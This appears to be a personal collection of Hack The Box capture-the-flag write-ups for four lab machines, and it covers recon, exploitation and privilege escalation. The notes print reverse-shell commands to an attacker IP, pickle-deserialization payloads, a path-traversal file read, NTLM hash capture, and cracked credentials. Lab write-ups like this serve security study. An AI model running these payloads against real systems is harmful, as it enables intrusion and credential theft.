

# HTB

## Runner

recon

> have to add runner.htb to /etc/hosts

```sh
nmap -sT 10.10.11.13
nmap -sV -sC -p 80 10.10.11.13
```

=== "shell"

    ```bash
    nmap -sV -sC -p 8000 10.10.11.13
    ```

=== "output"

    ```
    PORT     STATE SERVICE     VERSION
    80/tcp open  http    nginx 1.18.0 (Ubuntu)
        |_http-server-header: nginx/1.18.0 (Ubuntu)
        |_http-title: Runner - CI/CD Specialists
    8000/tcp open  nagios-nsca Nagios NSCA
    |_http-title: Site doesn't have a title (text/plain; charset=utf-8).
    ```

directory fuzzing

```bash
ffuf -u http://10.10.11.13:8000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
# nothing interesting
```

> saw [solution](https://medium.com/@yurytechx/runner-writeup-hack-the-box-51569eeb1485)
> and second
> [solution](https://medium.com/@aslam.mahimkar/runner-hackthebox-walkthrough-103250a9acd3)

whatweb

=== "shell"

    ```bash
    whatweb 10.10.11.13
    ```

=== "output"

    ```
    http://10.10.11.13 [302 Found] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.13], RedirectLocation[http://runner.htb/], Title[302 Found], nginx[1.18.0]
    http://runner.htb/ [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[sales@runner.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.13], JQuery[3.5.1], PoweredBy[TeamCity!], Script, Title[Runner - CI/CD Specialists], X-UA-Compatible[IE=edge], nginx[1.18.0]
    ```

subdomain enumeration

```bash
subfinder -d runner.htb
# nothing interesting
```

Turns out subfinder uses only online sources since it is a passive subdomain
enumeration tool. Since runner.htb is not a real domain, we need to use a
different tool. knockpy uses a wordlist to generate subdomains.

There are many tools for subdomain enumeration. Most of them are using online
sources. I didn't find a tool that finds subdomains by fuzzing the webserver
and finding out subdomains locally.

So, using ffuf to manually find subdomains. Was getting 302 for any subdomain so
filtered out 302 From the comments in the solution the wordlist that had to be
used was shubs-subdomains.txt Turns out only shubs-subdomains.txt had the
subdomain teamcity. 

!!! tip

    you can also use cewl to generate a custom wordlist using the website on
    runner.htb, this will add teamcity to the wordlist.

```bash
ffuf -u http://10.10.11.13/ -H "Host: FUZZ.runner.htb" -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -fc 302
#  :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
#  :: Filter           : Response status: 302
# ________________________________________________
#
# teamcity                [Status: 401, Size: 66, Words: 8, Lines: 2, Duration: 34ms]
```

Went to login page of teamcity and saw the version of teamcity. This version is
vulnerable and exploit is avaiable on
[exploit-db](https://www.exploit-db.com/exploits/51884).
Using this exploit got admin creds for teamcity.

Tried msf to get a shell but it didn't work.

```
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RHOSTS teamcity.runner.htb
RHOSTS => teamcity.runner.htb
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > set RPORT 80
RPORT => 80
msf6 exploit(multi/http/jetbrains_teamcity_rce_cve_2023_42793) > run

[*] Started reverse TCP handler on 10.0.2.15:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. JetBrains TeamCity 2023.05.3 (build 129390) detected.
[*] Created authentication token: eyJ0eXAiOiAiVENWMiJ9.elUwXzIxcUEyTl9DMXFiVVgtTnZmcEZ3VnVZ.NGRmN2VkN2EtYjkyNC00ODk2LWE5YTUtNjRjNTNiZGY5NTA0
[*] Modifying internal.properties to allow process creation...
[*] Waiting for configuration change to be applied...
[*] Executing payload...
[*] Resetting the internal.properties settings...
[*] Waiting for configuration change to be applied...
[*] Deleting the authentication token.
[*] Exploit completed, but no session was created.
```

rce exploit from [here](https://github.com/Zyad-Elsayed/CVE-2023-42793) didn't
work either.

```
Responding with error, status code: 400 (Bad Request).
Details: jetbrains.buildServer.server.rest.errors.BadRequestException: This server is not configured to allow process debug launch via "rest.debug.processes.enable" internal property
Invalid request. Please check the request URL and data are correct.
```

Following solution

Since I have the admin creds to the portal, logged in and took backup.


Then got hash for matthew user

```bash
grep -R matthew
# database_dump/users:2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1717755629612, BCRYPT
john --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt matthew_hash.txt
# Will run 2 OpenMP threads
# Press 'q' or Ctrl-C to abort, almost any other key for status
# piper123         (?)     
# 1g 0:00:00:16 DONE (2024-06-07 10:43) 0.06027g/s 3136p/s 3136c/s 3136C/s playboy93..peaches21
```

matthew's creds didn't work on ssh.

found id_rsa (private key) in the backup.

```bash
ssh -i id_rsa john@10.10.11.13
```

Got user.txt

Now to get root

See the active processes


=== "shell"

    ```bash
    netstat -lantp
    ```

=== "output"

    ```
    Active Internet connections (servers and established)
    Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
    tcp        0      0 127.0.0.1:8111          0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:9443          0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
    tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:5005          0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.1:9000          0.0.0.0:*               LISTEN      -
    tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
    tcp        0    296 10.10.11.13:22          10.10.14.120:62222      ESTABLISHED -
    tcp6       0      0 :::80                   :::*                    LISTEN      -
    tcp6       0      0 :::22                   :::*                    LISTEN      -
    tcp6       0      0 :::8000                 :::*                    LISTEN      -
    ```

Tried curl to all the ports and found 9000 to be interesting. It is running
Portainer. Since it is running on localhost, I need to set up a relay on the
runner to access the website from attacker machine.

chisel - works over ssh and can be used to forward ports.
proxychains - used for setting up a proxy to forward traffic.
You can also use ssh to forward all local ports as per second solution.

chisel would work here.

install chisel on kali `sudo apt install chisel`

get chisel binary on runner. Downloaded the binary on kali in `~/ctf/tools`

```bash
scp -i id_rsa ~/ctf/tools/chisel john@10.10.11.13:/home/john
```

Use chisel to expose port 9000 on runner to attacker machine

attacker machine

```bash
chisel server -port 7777 --reverse 
```

runner

```bash
./chisel client 10.10.14.120:7777 R:9000:127.0.0.1:9000
```

Visit `http://localhost:9000` on attacker machine

Turns out that the solution I was referring to is not correct after this point.

Found a link from reddit to a
[blog](https://www.reddit.com/r/hackthebox/comments/1c9orvn/help_regarding_runner_seasonal_machine/)

In actual scenario where you don't have a solution.

- portainer shows the docker version
- search for docker exploit related to host filesystem
- found link to docker [security
  announcements](https://docs.docker.com/security/security-announcements/)
- Got the CVE regarding
  [runC](https://scout.docker.com/vulnerabilities/id/CVE-2024-21626)

Follow instructions as per exploit given in CVE

The current working directory when creating the container has to be set to
`/proc/self/fd/8` to get the host fs.

Attach to the container and get root.txt

```bash
cat ../../../root/root.txt
```


## Boardlight

add `board.htb` to `/etc/hosts`

recon

```bash
nmap -sT 10.10.11.11
# PORT     STATE SERVICE
# 22/tcp   open  ssh
# 80/tcp   open  http
```

browsed through the website but didn't find anything interesting.

virtual host enumeration

```bash
ffuf -u http://10.10.11.11:80 -H "Host: FUZZ.board.htb" -w /usr/share/seclists/Discovery/DNS/shubs-subdomains.txt -fs 15949
# crm                     [Status: 200, Size: 6360, Words: 397, Lines: 150, Duration: 76ms]
```

had to add `-fs 15949` since it was giving 200 for all subdomains.
Found crm subdomain.

INFO: admin:admin worked on crm.board.htb

Saw dolibarr version 17.0, tried exploit from msf but it didn't work.
Found another [exploit](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

```bash
# in one shell
nc -nlvp 4444
# in another shell
python doli_exp.py http://crm.board.htb admin admin 10.10.14.120 4444
```

Got reverse shell

!!! tip

    Look for config file of the tool you just broke into.

Found doli creds in /var/www/html/crm.board.htb/htdocs/conf/conf.php
Got users of system from /etc/passwd

```bash
cat /var/www/html/crm.board.htb/htdocs/conf/conf.php
# $dolibarr_main_url_root='http://crm.board.htb';                                                                                              
# $dolibarr_main_document_root='/var/www/html/crm.board.htb/htdocs';                                                                           
# $dolibarr_main_url_root_alt='/custom';                                                                                                       
# $dolibarr_main_document_root_alt='/var/www/html/crm.board.htb/htdocs/custom';                                                                
# $dolibarr_main_data_root='/var/www/html/crm.board.htb/documents';                                                                            
# $dolibarr_main_db_host='localhost';                                                                                                          
# $dolibarr_main_db_port='3306';
# $dolibarr_main_db_name='dolibarr';
# $dolibarr_main_db_prefix='llx_';
# $dolibarr_main_db_user='dolibarrowner';
# $dolibarr_main_db_pass='serverfun2$2023!!';
# $dolibarr_main_db_type='mysqli';
# $dolibarr_main_db_character_set='utf8';
# $dolibarr_main_db_collation='utf8_unicode_ci';
# // Authentication settings
# $dolibarr_main_authentication='dolibarr';
cat /etc/passwd
# larissa:x:1000:1000:,,,:/home/larissa:/bin/bash
```

Got mysql creds. To login to mysql

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
mysql -D dolibarr -u dolibarrowner -p
```

Got hash for dolibarr and admin user from llx_user table

```sql
select * from llx_user;
# dolibarr - $2y$10$VevoimSke5Cd1/nX1Ql9Su6RstkTRe7UX1Or.cm8bZo56NjCMJzCm
# admin - $2y$10$gIEKOl7VZnr5KLbBDzGbL.YuJxwz5Sdl5ji3SEuiUSlULgAhhjH96
```

!!! tip

    Try any password found for other things as well

The mysql creds worked for larissa user.

```bash
su larissa
# Password: serverfun2$2023!!
```

ssh as larissa and got user flag

```bash
ssh larissa@10.10.11.11
cat user.txt
```

look for suid binaries

```bash
find / -perm -4000 -type f 2>/dev/null
# /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys
# /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd
# /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight
```

There is another script to search for local privilege escalation vectors
[LinPEAS](https://github.com/peass-ng/PEASS-ng)
Running the script gave below output

```
-rwsr-xr-x 1 root root 27K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_sys (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_ckpasswd (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/utils/enlightenment_backlight (Unknown SUID binary!)
-rwsr-xr-x 1 root root 15K Jan 29  2020 /usr/lib/x86_64-linux-gnu/enlightenment/modules/cpufreq/linux-gnu-x86_64-0.23.1/freqset (Unknown SUID
 binary!)
```

enlightenment exploit
[available](https://github.com/MaherAzzouzi/CVE-2022-37706-LPE-exploit/blob/main/exploit.sh)

Ran the script to get root shell


## Mailing


add `mail.htb` to `/etc/hosts`

recon

```bash
nmap -sT 10.10.11.14
# PORT    STATE SERVICE                                                                                                                       
# 25/tcp  open  smtp                                                                                                                          
# 80/tcp  open  http
# 110/tcp open  pop3
# 135/tcp open  msrpc
# 139/tcp open  netbios-ssn
# 143/tcp open  imap
# 445/tcp open  microsoft-ds
# 465/tcp open  smtps
# 587/tcp open  submission
# 993/tcp open  imaps
```

=== "shell"

    ```bash
    nmap -sV -sC 10.10.11.14
    ```

=== "output"

    ```
    PORT    STATE SERVICE       VERSION                                                                                                         
    25/tcp  open  smtp          hMailServer smtpd                                                                                               
    | smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP                                                                         
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY                                                                               
    80/tcp  open  http          Microsoft IIS httpd 10.0                                                                                        
    |_http-server-header: Microsoft-IIS/10.0                                                                                                    
    |_http-title: Mailing                                                                                                                       
    | http-methods:                                                                                                                             
    |_  Potentially risky methods: TRACE                                                                                                        
    110/tcp open  pop3          hMailServer pop3d
    |_pop3-capabilities: UIDL USER TOP
    135/tcp open  msrpc         Microsoft Windows RPC
    139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
    143/tcp open  imap          hMailServer imapd
    |_imap-capabilities: NAMESPACE completed QUOTA CAPABILITY IMAP4rev1 IDLE CHILDREN ACL SORT IMAP4 OK RIGHTS=texkA0001
    445/tcp open  microsoft-ds?
    465/tcp open  ssl/smtp      hMailServer smtpd
    |_ssl-date: TLS randomness does not represent time
    | smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    | ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
    | Not valid before: 2024-02-27T18:24:10
    |_Not valid after:  2029-10-06T18:24:10
    587/tcp open  smtp          hMailServer smtpd
    | ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
    | Not valid before: 2024-02-27T18:24:10
    |_Not valid after:  2029-10-06T18:24:10
    |_ssl-date: TLS randomness does not represent time
    | smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
    |_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
    993/tcp open  ssl/imap      hMailServer imapd
    |_ssl-date: TLS randomness does not represent time
    | ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU
    | Not valid before: 2024-02-27T18:24:10
    |_Not valid after:  2029-10-06T18:24:10
    |_imap-capabilities: NAMESPACE completed QUOTA CAPABILITY IMAP4rev1 IDLE CHILDREN ACL SORT IMAP4 OK RIGHTS=texkA0001
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
    ```

By analysing the page you can see that there is a `download.php` file. This
shows possible file inclusion.

As per tip, look for config files on hMailServer. There is a `hMailServer.ini`
file which has creds for admin user.

The `download.php` link has information disclosure vulnerability. It responds
with 200 for any wrong file path and 500 for correct file path. So by trial and
error in Burp repeater, found the path to `hMailServer.ini` file.

`http://mailing.htb/download.php?file=../../../Program+Files+(x86)/hMailServer/Bin/hMailServer.ini`

```
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
```


google search - hMailServer stores hashed in MD5.
Using hashcat to crack the hash

```bash
hashcat -m 0 -a 0 841bb5acfa6779ae432fd7a4e6600ba7 /usr/share/wordlists/rockyou.txt
# 841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator
```

The other hash could not be cracked.


Saw
[solution](https://medium.com/@Infinite_Exploit/mailing-writeup-htb-9f3ef005b70c)

There is a vulnerability in outlook
<https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability?tab=readme-ov-file?
This vulnerability exploits the
[monikor](https://research.checkpoint.com/2024/the-risks-of-the-monikerlink-bug-in-microsoft-outlook-and-the-big-picture/)
link bug in outlook.

The exploit works by sending an email with a link which is a url to a network
share. When Windows accesses network shares it sends NTLMv2 hashes. The hashes
can then be cracked. To collect the hashes, start `responder` on kali which is a
tool to spoof and intercept on local networks which have windows devices.

The receiver email (maya) can be found from the homepage of mailing.htb as some
names are mentioned there.

```bash
sudo responder -I tun0
python CVE-2024-21413.py --server mailing.htb --port 587 --username administrator@mailing.htb --password homenetworkingadministrator --sender administrator@mailing.htb --recipient maya@mailing.htb --url "\\10.10.14.120\test\meeting" --subject "XD"
```

Got the hash

```
[SMB] NTLMv2-SSP Client   : 10.10.11.14
[SMB] NTLMv2-SSP Username : MAILING\maya
[SMB] NTLMv2-SSP Hash     : maya::MAILING:704122a9fd4066f0:0BD8D5929FFED3123536FADB0E9716DC:0101000000000000000AD925CEBFDA01896D1A68678CCBC30
00000000200080041004E003200580001001E00570049004E002D0054005100550035003300580033004F0056003900480004003400570049004E002D00540051005500350033
00580033004F005600390048002E0041004E00320058002E004C004F00430041004C000300140041004E00320058002E004C004F00430041004C000500140041004E003200580
02E004C004F00430041004C0007000800000AD925CEBFDA0106000400020000000800300030000000000000000000000000200000546114653E376B3746977B94D57BF983D88C
28322A013284BAB9495EFDC9433D0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E00310032003
000000000000000000000
```

put the hash in `hashes.txt` file
Cracked the hash

```bash
hashcat hashes.txt /usr/share/wordlists/rockyou.txt
```

```
MAYA::MAILING:704122a9fd4066f0:0bd8d5929ffed3123536fadb0e9716dc:0101000000000000000ad925cebfda01896d1a68678ccbc3000000000200080041004e0032005
80001001e00570049004e002d0054005100550035003300580033004f0056003900480004003400570049004e002d0054005100550035003300580033004f005600390048002e
0041004e00320058002e004c004f00430041004c000300140041004e00320058002e004c004f00430041004c000500140041004e00320058002e004c004f00430041004c00070
00800000ad925cebfda0106000400020000000800300030000000000000000000000000200000546114653e376b3746977b94d57bf983d88c28322a013284bab9495efdc9433d
0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003100320030000000000000000000:m4y4ngs4
ri
```

So the creds are `maya:m4y4ngs4ri`

Turns out I had missed some ports in the nmap scan


!!! tip

    For full nmap scan
    ```bash
    nmap -Pn -sC -sV -oA tcp -p- -T4 -vvvvv --reason 10.10.11.14
    ```

---

!!! info

    Microsoft Port Notes:

    1. port 5985 - WinRM (Remote Management)
    2. port 445 - SMB (Network Share)
    3. port 135 - RPC (Remote Procedure Call)

    The `dir` command in Powershell is not the same as the `dir` command in cmd. It
    is an alias for `Get-ChildItem` which is used to list files and directories.


---

Connect to WinRM

```bash
evil-winrm -i 10.10.11.14 -u maya -p m4y4ngs4ri
```

## Blurry

recon

```bash
nmam -sT 10.10.11.19
# PORT   STATE SERVICE VERSION
# 22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
# | ssh-hostkey: 
# |   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
# |   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
# |_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
# 80/tcp open  http    nginx 1.18.0
# |_http-server-header: nginx/1.18.0
# |_http-title: ClearML
# Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

clearml service is running on port 80

searched for clearml exploits on google and got this [link](https://hiddenlayer.com/research/not-so-clear-how-mlops-solutions-can-muddy-the-waters-of-your-supply-chain/)

browsed through the website to understand a little bit about clearml

The Projects have experiments. The projects are created by users on the system.
The models are created by specific users.

Found 2 models created by 2 different users.

The users are 

```
jippity@blurry
rayflection@blurry
```

As per CVE-2024-24590: Pickle Load on Artifact Get, if any user uses `gets()` on
an artifact then it is loaded into memory. So use pickle to serialize a command
for command injection. Set up a reverse shell.
Below is the python code to create a pickle artifact for command injection.


```python
import pickle
import os

class RunCommand:

def __reduce__(self):

    return (os.system, ('echo "Hacked by HiddenLayer" ; echo "Hacked over pickle
    loads" | nc 127.0.0.1 1337',))

command = RunCommand()

with open('pickle_artifact.pkl','wb') as f:
    pickle.dump(command, f)
```

For some reason uploading pickle artifact to clearml was not working. So, had to
directly upload the object to clearml. For running the below code you need to
get credentials from the clearml webui and running `clearml-init`.

```bash
from clearml import Task
import os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('echo "Hacked by HiddenLayer" ; echo "Hacked over pickle loads" | nc 10.10.14.120 4444 -e /bin/bash',))

command = RunCommand()

task = Task.init(project_name='Black Swan', task_name='testing')
# task.upload_artifact(name="safe", artifact_object='pickle_artifact.pkl')
task.upload_artifact(name="safe", artifact_object=command)
print('test')
```

Before uploading set up a listener on attacker machine

```bash
nc -nlvp 4444
```

After uploading the object put a tag of `review` on your experiment (testing) in
black swan project. Then the existing experiment from jippity user will process 
the artifact and run the command.

Once you get reverse shell as `jippiy` user, get user flag

```bash
cat /home/jippity/user.txt
```

Then copy the ssh private key from `/home/jippity/.ssh/id_rsa`.

Now you can ssh

```bash
ssh -i id_rsa jippity@10.10.11.19
```

For root flag did usual checks

```bash
sudo -l
# User jippity may run the following commands on blurry:
#     (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
```

Below is `evaluate_model` script

```bash
#!/bin/bash
# Evaluate a given model against our proprietary dataset.
# Security checks against model file included.

if [ "$#" -ne 1 ]; then
    /usr/bin/echo "Usage: $0 <path_to_model.pth>"
    exit 1
fi

MODEL_FILE="$1"
TEMP_DIR="/models/temp"
PYTHON_SCRIPT="/models/evaluate_model.py"  

/usr/bin/mkdir -p "$TEMP_DIR"

file_type=$(/usr/bin/file --brief "$MODEL_FILE")

# Extract based on file type
if [[ "$file_type" == *"POSIX tar archive"* ]]; then
    # POSIX tar archive (older PyTorch format)
    /usr/bin/tar -xf "$MODEL_FILE" -C "$TEMP_DIR"
elif [[ "$file_type" == *"Zip archive data"* ]]; then
    # Zip archive (newer PyTorch format)
    /usr/bin/unzip -q "$MODEL_FILE" -d "$TEMP_DIR"
else
    /usr/bin/echo "[!] Unknown or unsupported file format for $MODEL_FILE"
    exit 2
fi

/usr/bin/find "$TEMP_DIR" -type f \( -name "*.pkl" -o -name "pickle" \) -print0 | while IFS= read -r -d $'\0' extracted_pkl; do
    fickling_output=$(/usr/local/bin/fickling -s --json-output /dev/fd/1 "$extracted_pkl")

    if /usr/bin/echo "$fickling_output" | /usr/bin/jq -e 'select(.severity == "OVERTLY_MALICIOUS")' >/dev/null; then
        /usr/bin/echo "[!] Model $MODEL_FILE contains OVERTLY_MALICIOUS components and will be deleted."
        /bin/rm "$MODEL_FILE"
        break
    fi
done

/usr/bin/find "$TEMP_DIR" -type f -exec /bin/rm {} +
/bin/rm -rf "$TEMP_DIR"

if [ -f "$MODEL_FILE" ]; then
    /usr/bin/echo "[+] Model $MODEL_FILE is considered safe. Processing..."
    /usr/bin/python3 "$PYTHON_SCRIPT" "$MODEL_FILE"
    
fi
```

The `evaluate_model` just needs a safe tensor to process. Created a tensor with
script (create_safe_model.py)

compress the tensor into a tar file, the name has to be a .pth as per
`evaluate_model` processing


```bash
tar -cvf safe.pth model.pth
```

Upload to `/models` directory

```bash
scp -i id_rsa safe.pth jippity@10.10.11.19
```

Instead of figuring out how to put malicious code into the tensor.
The `$PYTHON_SCRIPT` was being run as root and it was editable by jippity user.

Below was the script

```python
!/usr/bin/python
#
# Pickle deserialization RCE exploit
# calfcrusher@inventati.org
#
# Usage: ./Pickle-PoC.py [URL]

import pickle
import base64
import requests
import sys

class PickleRCE(object):
    def __reduce__(self):
        import os
        return (os.system,(command,))

#default_url = 'http://127.0.0.1:5000/vulnerable'
#url = sys.argv[1] if len(sys.argv) > 1 else default_url
command = '/bin/bash -i >& /dev/tcp/10.10.14.120/4444 0>&1'  # Reverse Shell Payload Change IP/PORT

pickled = 'pickled'  # This is the POST parameter of our vulnerable Flask app
payload = base64.b64encode(pickle.dumps(PickleRCE()))  # Crafting Payload
requests.post(url, data={pickled: payload})  # Sending POST request
```

There was also a demo_model.pth file which was safe for processing

```
jippity@blurry:~$ ls /models
demo_model.pth  evaluate_model.py
```

So just added `os.system('/bin/bash')` after os import in `evaluate_model.py`
and ran the below command

```bash
sudo /usr/bin/evaluate_model /models/demo_model.pth
```

Got root shell

```
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/demo_model.pth                                                                                                           
[+] Model /models/demo_model.pth is considered safe. Processing...                                                                                                              
root@blurry:/home/jippity# ls                                                                                                                                                   
automation  clearml.conf  user.txt                                                                                                                                              
root@blurry:/home/jippity# cat /root/root.txt                                                                                                                                   
95206b059ebbd641ebc777066add04ec
```

